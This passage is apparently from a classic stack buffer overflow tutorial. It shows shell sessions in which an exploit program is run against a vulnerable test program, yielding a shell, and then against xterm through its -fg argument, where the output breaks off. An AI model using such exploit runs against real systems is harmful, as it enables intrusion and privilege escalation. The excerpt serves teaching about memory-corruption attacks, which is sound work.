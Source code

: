 <PRE>

   Lets try our new exploit with our vulnerable test program:

</PRE>
```shell
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0
[aleph1]$ ./vulnerable $RET
$
```
<PRE>

   Works like a charm. Now lets try it on xterm:

</PRE>
```shell
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
"











































```